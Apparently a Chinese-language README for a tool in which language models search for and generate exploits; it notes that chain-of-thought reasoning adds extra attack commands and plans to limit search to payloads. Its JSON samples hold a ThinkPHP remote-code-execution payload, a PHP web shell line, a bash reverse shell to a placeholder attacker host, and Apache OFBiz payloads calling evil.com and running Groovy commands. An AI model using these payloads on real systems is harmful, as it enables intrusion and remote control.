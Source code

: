 # 250807 README

## 任务描述

1. 遇到的问题

之前用思维链测试的时候，发现思维链会使模型“过度思考”，总结出多余的 `command_attack`. 其中多余的 `command_attack`的来源包括：

- 思维链里给出的分析案例
- 教程的讲解内容
- 模型的联想

```json
{
  "exploits": [
    "POST /index.php?s=captcha",
    "POST parameter: _method",
    "POST parameter: filter[]",
    "POST parameter: method",
    "POST parameter: server[REQUEST_METHOD]"
  ],
  "payloads": [
    "_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id"
  ],
  "attack_commands": [
    "id",
    "system($_POST['cmd'])",
    "exec(\"bash -c 'bash -i >& /dev/tcp/attacker-ip/port 0>&1'\")"
  ]
}
```

2. 解决方案

在搜索阶段只提payload，将 `command_attack`解析留到代码生成那块去做。

- DEEPSEEK-CHAT

```json
{
  "payloads": [
    "statsDecoratorLocation=http://10.10.10.10/path/to/api",
    "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n<screens xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\n        xmlns=\"http://ofbiz.apache.org/Widget-Screen\" xsi:schemaLocation=\"http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd\">\n\n    <screen name=\"StatsDecorator\">\n        <section>\n            <actions>\n                <set value=\"${groovy:'touch /tmp/success'.execute();}\"/>\n            </actions>\n        </section>\n    </screen>\n</screens>",
    "statsDecoratorLocation=http://evil.com/ofbiz/payload.xml"
  ]
}
```

- DEEPSEEK-REASONER

3. 下一步的工作：将检索加进来（Max_result=3），先预处理一下网页信息，最后参考这个工作将搜索部分的内容总结为报告的形式，提交给代码生成的代理

![example](image\250807\1754540964374.png)
